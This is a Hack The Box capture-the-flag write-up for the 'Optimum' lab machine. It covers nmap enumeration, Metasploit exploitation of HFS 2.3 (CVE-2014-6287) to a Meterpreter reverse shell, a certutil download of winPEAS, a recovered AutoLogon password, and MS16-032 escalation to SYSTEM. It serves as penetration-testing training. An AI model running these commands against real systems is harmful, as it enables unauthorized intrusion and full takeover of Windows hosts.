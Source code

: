 ```yaml
---
clayout: ctf
title: Optimum
date: 2025-08-29
image: /ctf/hack-the-box/machines/optimum/info-card.png
type: Hack The Box

ctf:
    - name: Optimum
      link: https://app.hackthebox.com/machines/6
      thumbnail: /ctf/hack-the-box/machines/optimum/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/6
          thumbnail: /ctf/hack-the-box/machines/optimum/pwned.png
---
```


## Machine Overview

This target hosts **HttpFileServer 2.3 (HFS)**, a lightweight web server known to be vulnerable to remote code execution. Enumeration confirms the exploitability, and privilege escalation is achieved via a known local Windows exploit.

## Enumeration

## Nmap Scan

We begin with a service discovery scan to identify open ports and running services:

```bash
nmap -Pn -A -oN nmap.txt 10.10.10.8
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
```

Only port **80** is open, running **HFS v2.3**.

## Web Enumeration

Research reveals that **HFS 2.3** is vulnerable to **RCE (CVE-2014-6287)**. The public Metasploit module `exploit/windows/http/rejetto_hfs_exec` can be leveraged to obtain a remote shell.

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set LHOST 10.10.14.2
run
```

**Successful Exploit:**

```bash
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.8:49162)

meterpreter > shell
Microsoft Windows [Version 6.3.9600]
C:\Users\kostas\Desktop> whoami
optimum\kostas
```

We now have an initial shell as user **kostas**.

> [!NOTE] User flag
> `C:\Users\kostas\Desktop\user.txt`

## Privilege Escalation

To enumerate potential privilege escalation vectors, we upload and execute **winPEAS**:

```powershell
certutil -urlcache -split -f ^
  https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASx64.exe ^
  winPEASx64.exe
.\winPEASx64.exe
```

**Interesting Finding:**

```bash
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               : kostas
    DefaultPassword               : kdeEjDowkS*
```

WinPEAS reveals stored **AutoLogon credentials** for the `kostas` account, indicating potential misconfigurations.

Next, we use Metasploit’s `local_exploit_suggester` to identify viable privilege escalation exploits:

```bash
meterpreter > background
use post/multi/recon/local_exploit_suggester
set session 3
run
```

**Highlighted Options:**

```bash
1   exploit/windows/local/bypassuac_comhijack                      
2   exploit/windows/local/bypassuac_eventvwr                       
3   exploit/windows/local/bypassuac_sluihijack                     
4   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   
5   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  
6   exploit/windows/local/tokenmagic
```

Among these, we select **MS16-032** for privilege escalation:

```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set session 3
run
```

**Privilege Escalation Success:**

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We now have **SYSTEM-level access**.

> [!NOTE] Root flag
> `C:\Users\Administrator\Desktop\root.txt`
